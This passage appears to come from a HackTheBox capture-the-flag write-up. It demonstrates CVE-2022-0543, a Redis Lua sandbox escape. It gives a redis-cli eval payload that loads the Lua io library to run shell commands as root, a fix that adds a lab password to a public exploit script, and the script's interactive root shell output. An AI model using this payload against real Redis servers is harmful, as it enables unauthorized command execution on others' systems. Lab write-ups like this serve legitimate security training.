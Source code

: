     
    
    127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
    "uid=0(root) gid=0(root) groups=0(root)\n"
    

The script provides a shell-like experience. It will fail because there’s no
auth in the script, but adding this line fixes it:

    
    
    r = redis.Redis(host = ip,port = port, password="F2WHqJUz2WEz=Gqq")
    

Now it works nicely:

    
    
    oxdf@hacky$ python cve-2022-0543.py -h
      
          [#] Create By ::
            _                     _    ___   __   ____                             
           / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
          / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
         / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
        /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                       |___/            By https://aodsec.com                                           
        
    Please input redis ip:
    >>127.0.01
    Please input redis port:
    >>6379
    input exec cmd:(q->exit)
    >>id
    b'uid=0(root) gid=0(root) groups=0(root)\n'
    input exec cmd:(q->exit)
    >>pwd
    b'/var/lib/redis\n'
    input exec cmd:(q->exit)
    

[](/2022/11/12/htb-shared.html)

